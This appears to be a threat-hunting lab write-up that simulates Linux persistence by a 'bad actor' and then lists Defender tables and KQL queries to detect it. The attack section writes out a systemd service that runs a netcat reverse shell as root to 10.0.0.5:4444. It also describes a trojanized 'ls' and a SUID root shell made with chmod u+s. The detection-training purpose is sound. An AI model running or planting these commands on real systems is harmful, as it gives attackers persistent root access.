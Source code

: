 # Threat Event (Persistence & Backdoor Access)

**Unauthorized Persistence Mechanisms & Backdoor Creation**

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Downloaded and installed a **malicious systemd service** to ensure the backdoor would automatically start on system reboot.
- The service was configured to run a reverse shell or malicious command to maintain access after rebooting the system.

`# Create a malicious systemd service that will ensure persistence by executing a reverse shell
echo '[Unit]
Description=Malicious Service
After=network.target

[Service]
ExecStart=/bin/bash -c "nc -e /bin/bash 10.0.0.5 4444"
Restart=always
User=root

[Install]
WantedBy=multi-user.target' > /etc/systemd/system/malicious.service

# Enable and start the malicious service
sudo systemctl enable malicious.service
sudo systemctl start malicious.service`

2. Replaced the legitimate `ls` command with a Trojanized script located at `/home/baddog/.local/bin/ls`.
- This Trojanized script was designed to execute a reverse shell when invoked, providing continued access to the system without raising suspicion.
3. **Created a backdoor shell at `/tmp/rootbash`, set the **SUID permission** on the shell (`chmod u+s /tmp/rootbash`), and made it executable by any user.
- This backdoor shell was designed to escalate privileges and grant root access, regardless of the user executing

---

## Tables Used to Detect IoCs:

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceProcessEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose** | Used to detect execution of Trojanized commands, privilege escalation attempts, and service creation. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceFileEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose** | Used to detect the creation and modification of system files, including systemd services and backdoor binaries. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceLogonEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table |
| **Purpose** | Used to detect unauthorized remote logins or unusual authentication patterns. |

---

## Related Queries:

```kql
// Detect execution of a Trojanized administrative command
DeviceProcessEvents
| where ProcessCommandLine contains "ls"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect execution of a SUID backdoor shell
DeviceProcessEvents
| where ProcessCommandLine contains "rootbash"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect potential unauthorized logins
DeviceLogonEvents
| where AccountName contains "root"
| where LogonType in ("RemoteInteractive", "Interactive")
| project Timestamp, DeviceName, AccountName, RemoteIP, LogonType
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47
- **Date**: January 30, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**
